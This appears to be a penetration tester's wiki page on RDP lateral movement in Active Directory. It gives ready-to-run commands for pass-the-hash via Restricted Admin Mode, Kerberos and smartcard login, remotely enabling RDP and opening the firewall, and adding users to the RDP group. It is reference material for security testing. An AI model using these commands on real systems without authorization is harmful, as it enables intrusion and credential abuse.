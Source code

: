 ```yaml
---
title: RDP Lateral Movement
---
```


[[notes/lateral-movement/index]] over [[notes/network/rdp]].

Connect over RDP.

=== "[[notes/tools/freerdp]]"
    ~~~ bash
    xfreerdp /cert:ignore +clipboard /dynamic-resolution /tls-seclevel:0 /u:john.doe@corp.local /p:'passw0rd' /v:srv01.corp.local
    ~~~

=== "builtin"
    ~~~ bat
    mstsc.exe /v:srv01.corp.local
    ~~~

> **Note:** RDP works over Chisels SOCKS proxy, but not over Sliver.

# Pass the Hash

[[notes/ad/pass-the-hash]] to RDP does not work by default because RDP requires interactive logon.
However it is possible to switch RDP to network logon by enabling *Restricted Admin Mode*.
Unfortunately this introduces the infamous [[notes/ad/double-hop-problem]].
It can be configured by setting the [[notes/windows/registry]] value `HKLM\System\CurrentControlSet\Control\Lsa\DisableRestrictedAdmin` to `0`.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin -vt REG_DWORD -vd 0
    ~~~

=== "PowerShell"
    ~~~ powershell
    New-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\LSA' -Name DisableRestrictedAdmin -Value 0
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe add "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
    ~~~

Authenticate with a NT hash.

=== "[[notes/tools/freerdp]]"
    ~~~ bash
    xfreerdp /cert:ignore +clipboard /dynamic-resolution /tls-seclevel:0 /u:jdoe@corp.local /pth:$nthash /v:srv01.corp.local
    ~~~

Cleanup.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local delete -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v DisableRestrictedAdmin
    ~~~

=== "PowerShell"
    ~~~ powershell
    Remove-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\LSA' -Name DisableRestrictedAdmin
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe delete /f "\\srv01.corp.local\HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin
    ~~~

# Kerberos Authentication

Authenticate over Kerberos.

=== "[[notes/tools/aardwolfgui]]"
    ~~~ bash
    aardpclient 'rdp+kerberos-password://corp\jdoe:passw0rd@srv01.corp.local/?dc=dc01.corp.local'
    ~~~

Kerberos support in `rdesktop` seems to be incomplete.
`crackmapexec` should support it, but currently throws an exception.
`aardwolf` does support it, but doesn't implement dynamic resolution and shared folders yet.

[[notes/ad/pass-the-ticket]] to RDP works only if *Remote Credential Guard* is enabled, because otherwise it requires an interactive logon.

References:

- [twitter.com/Defte_/status/1707370420515553356](https://twitter.com/Defte_/status/1707370420515553356), recompile [[notes/tools/freerdp]] with `WITH_GSSAP` for Kerberos support
- [Abusing RDPs Remote Credential Guard with Rubeus PTT](http://web.archive.org/web/20230216004623/https://www.pentestpartners.com/security-blog/abusing-rdps-remote-credential-guard-with-rubeus-ptt/)

# Certificated-based Authentication

a) With PKINIT ([source](https://mobile.twitter.com/an0n_r0/status/1560699394365673472))

- install `pcsd`
- install [vpcd](https://frankmorgner.github.io/vsmartcard/virtualsmartcard/README.html) as virtual smartcard reader
- install [OpenSC](https://github.com/OpenSC/OpenSC/wiki/Smart-Card-Simulation#simulating-piv) as virtual smartcard
- upload your certificate into the virtual smartcard with [yubico-piv-tool](https://developers.yubico.com/yubico-piv-tool/)
- run `xfreerdp /smartcard`

b) [[notes/ad/unpac-the-hash]]

Maybe you need to disable the smart card requirement first by setting the [[notes/windows/registry]] key `HKLM\Software\Microsoft\Windows\CurrentVersion\policies\System\scforceoption` to `0`.

# Enable RDP

Enable RDP by setting the [[notes/windows/registry]] value `HKLM\System\CurrentControlSet\Control\Terminal Server\fDenyTSConnections` to `0` and open the firewall.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local add -keyName 'HKLM\System\CurrentControlSet\Control\Terminal Server' -v fDenyTSConnections -vt REG_DWORD -vd 0
    impacket-wmiexec -k -no-pass -nooutput srv01.corp.local 'netsh advfirewall firewall set rule group="remote desktop" new enable=yes'
    ~~~

=== "PowerShell"
    ~~~ powershell
    Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name fDenyTSConnections -Value 0
    Enable-NetFirewallRule -DisplayGroup 'Remote Desktop'
    Get-Service termservice
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    netsh.exe advfirewall firewall set rule group="remote desktop" new enable=yes
    sc.exe query termservice
    ~~~

Cleanup.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-reg -k -no-pass srv01.corp.local delete -keyName 'HKLM\System\CurrentControlSet\Control\Terminal Server' -v fDenyTSConnections
    ~~~

=== "PowerShell"
    ~~~ powershell
    Remove-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name fDenyTSConnections
    ~~~

=== "builtin"
    ~~~ bat
    reg.exe delete /f "\HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections
    ~~~

Allow an unprivileged user to login over RDP.

~~~ bat
net.exe localgroup "Remote Desktop Users" jdoe /add
net.exe localgroup Remotedesktopbenutzer jdoe /add
~~~

